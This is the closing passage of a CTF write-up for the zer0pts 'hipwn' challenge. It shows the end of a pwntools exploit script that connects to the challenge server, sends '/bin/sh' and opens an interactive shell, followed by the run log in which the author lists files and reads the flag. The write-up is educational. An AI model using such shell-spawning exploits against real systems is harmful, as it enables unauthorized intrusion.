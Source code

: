 ```python
#p = process("./chall")
p = connect("18.179.178.246", 9010)

p.sendlineafter("?\n", payload)
p.sendline(b"/bin/sh\x00") # Sending this to stdin which means the `writable_readable_addr` will have `/bin/sh`

p.interactive()
```

Running the exploit:-

```asm
robin@oracle:~/CTFs$ python hipwn_xpl.py 
[*] '/home/robin/CTFs/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 18.179.178.246 on port 9010: Done
[*] Switching to interactive mode
$ ls
chall
flag.txt
redir.sh
$ cat flag.txt
zer0pts{welcome_yokoso_osooseyo_huanying_dobropozhalovat}
$  
```

Yay, we got this. I hope you learned something. Encontered any issues? Contact [@D4mianWayne](https://twitter.com/D4mianWayne)




